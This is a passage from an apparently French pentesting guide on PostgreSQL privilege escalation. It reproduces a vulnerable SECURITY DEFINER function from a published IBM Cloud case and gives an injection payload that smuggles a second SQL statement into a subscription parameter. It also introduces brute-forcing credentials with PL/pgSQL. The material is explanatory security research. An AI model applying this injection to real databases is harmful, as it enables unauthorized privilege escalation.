 ### **Fonction définie par l'utilisateur avec** SECURITY DEFINER

[**Dans cet article**](https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql), les pentesters ont pu obtenir un accès privilégié à une instance postgres fournie par IBM, car ils **ont trouvé cette fonction avec le drapeau SECURITY DEFINER** :

<pre class="language-sql"><code class="lang-sql">CREATE OR REPLACE FUNCTION public.create_subscription(IN subscription_name text,IN host_ip text,IN portnum text,IN password text,IN username text,IN db_name text,IN publisher_name text)
RETURNS text
LANGUAGE 'plpgsql'
<strong>    VOLATILE SECURITY DEFINER
</strong>    PARALLEL UNSAFE
COST 100

AS $BODY$
DECLARE
persist_dblink_extension boolean;
BEGIN
persist_dblink_extension := create_dblink_extension();
PERFORM dblink_connect(format('dbname=%s', db_name));
PERFORM dblink_exec(format('CREATE SUBSCRIPTION %s CONNECTION ''host=%s port=%s password=%s user=%s dbname=%s sslmode=require'' PUBLICATION %s',
subscription_name, host_ip, portNum, password, username, db_name, publisher_name));
PERFORM dblink_disconnect();
…
</code></pre>

Comme [**expliqué dans la documentation**](https://www.postgresql.org/docs/current/sql-createfunction.html), une fonction avec **SECURITY DEFINER est exécutée** avec les privilèges de l'**utilisateur qui la possède**. Par conséquent, si la fonction est **vulnérable à l'injection SQL** ou effectue des **actions privilégiées avec des paramètres contrôlés par l'attaquant**, elle pourrait être exploitée pour **escalader les privilèges à l'intérieur de postgres**.

Dans la ligne 4 du code précédent, vous pouvez voir que la fonction a le **drapeau SECURITY DEFINER**.
```sql
CREATE SUBSCRIPTION test3 CONNECTION 'host=127.0.0.1 port=5432 password=a
user=ibm dbname=ibmclouddb sslmode=require' PUBLICATION test2_publication
WITH (create_slot = false); INSERT INTO public.test3(data) VALUES(current_user);
```
Et ensuite, **exécutez des commandes** :

<figure><img src="../images/image (649).png" alt=""><figcaption></figcaption></figure>

### Passer le Brute-force avec PL/pgSQL

**PL/pgSQL** est un **langage de programmation complet** qui offre un meilleur contrôle procédural par rapport à SQL. Il permet l'utilisation de **boucles** et d'autres **structures de contrôle** pour améliorer la logique du programme. De plus, les **instructions SQL** et les **déclencheurs** ont la capacité d'invoquer des fonctions créées à l'aide du **langage PL/pgSQL**. Cette intégration permet une approche plus complète et polyvalente de la programmation et de l'automatisation des bases de données.\
**Vous pouvez abuser de ce langage pour demander à PostgreSQL de brute-forcer les identifiants des utilisateurs.**
